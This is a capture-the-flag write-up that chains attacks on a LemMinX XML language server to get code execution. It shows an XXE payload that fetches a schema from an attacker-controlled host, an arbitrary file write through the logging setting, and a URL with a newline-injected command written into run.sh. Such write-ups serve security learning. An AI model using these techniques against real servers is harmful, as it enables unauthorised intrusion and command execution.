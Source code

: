 # LemMinX

* Category: Misc
* Score: 360/500
* Solves: 7

## Description

A weird service speaking a weird protocol. I think it is really safe to expose it to the public right? 🤔

## Overview

This challenges expose a direct socket access to [LemMinX](https://github.com/eclipse/lemminx) language server, the target is to get RCE.

## Solution

First, to communicate with the service you need to refer to [Language Server Protocol](https://microsoft.github.io/language-server-protocol/).

Also, since the server binary used here is exactly the same one as [Red Hat's XML Language Support](https://marketplace.visualstudio.com/items?itemName=redhat.vscode-xml), you can install it in VSCode to change the `xml.trace.server` setting the let it dump its JSON-RPC messages to help you figure out how it works.

The rough exploit idea is to find the randomly generated folder in `/home/ctf` first, then use arbitrary file write to write something to get code execution.

### Listing files

Since this is a XML language server, it is very likely to have XXE bugs. Also, the server is written in Java so XXE does allow us to list files. What I found is to abuse its hover feature the get XXE:

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0
  http://YOUR_SERVER/xxe.xsd">
  <modelVersion>
    aasdas
  </modelVersion>
</project>
```

When you try to hover on `modelVersion` it will try to read the file `xxe.xsd` from your server and display the description, and it is vulnerable to XXE so you can list dir with this.

> You can try this in VSCode, btw. It actually works.

You can refer to these files:

* [exp/solve_part1.py](exp/solve_part1.py)
* [exp/hello.xml](exp/hello.xml)
* [exp/xxe.xsd](exp/xxe.xsd)

It is necessary to run a server serving these files and modify `xxe.xsd` before running the exploit `python solve_part1.py $IP $PORT`.

### Arbitrary file write

You can find there is a logging feature by reading the [official documentation](https://github.com/eclipse/lemminx/blob/main/docs/Configuration.md#logging) or reading dumped initialization messages. So setting the log path to any file we want to write does the job.

The next step is to find some way to let user controlled string being logged, for example I use [resource download](https://github.com/eclipse/lemminx/blob/267551a24de8f6b3ae8c430de013340931f22be9/org.eclipse.lemminx/src/main/java/org/eclipse/lemminx/uriresolver/CacheResourcesManager.java#L213) message control the output.

### RCE

As for which file to write, it is easy to see `/home/ctf/?/run.sh` is `-rwxr-xr-x 1 ctf ctf`, so we can easily write some commands to that file and get command execution.

Use `python solve_part2.py $IP $PORT $FOLDER_NAME` to write, and `run.sh` will looks like this:

```sh
#!/bin/sh
timeout 10 ./lemminx-linux
Nov 27, 2022 2:46:55 AM org.eclipse.lemminx.XMLLanguageServer initialize
INFO: Initializing XML Language server
LemMinX Server info:
 - Version : 0.19.1
 - Native Image
 - VM Version : 1.8.0_272
 - Git [Branch 6059965ad91cd67cba1c91f4b82714c57dc64fa5] 6059965 - [maven-release-plugin] prepare release 0.19.1
Nov 27, 2022 2:46:55 AM org.eclipse.lemminx.uriresolver.CacheResourcesManager lambda$downloadResource$0
INFO: Downloading http://random/%0a/printflag%20%23 to /tmp/peko/cache/http/random/
/printflag #...
Nov 27, 2022 2:46:55 AM org.eclipse.lemminx.uriresolver.CacheResourcesManager lambda$downloadResource$0
SEVERE: Error while downloading http://random/%0a/printflag%20%23 to /tmp/peko/cache/http/random/
/printflag # : [java.net.UnknownHostException] random
```

So simply exit the language server and it will execute `/printflag` for you. Also, you don't need the third connection because shell script is [actually interpreted line by line](https://stackoverflow.com/a/19430939).
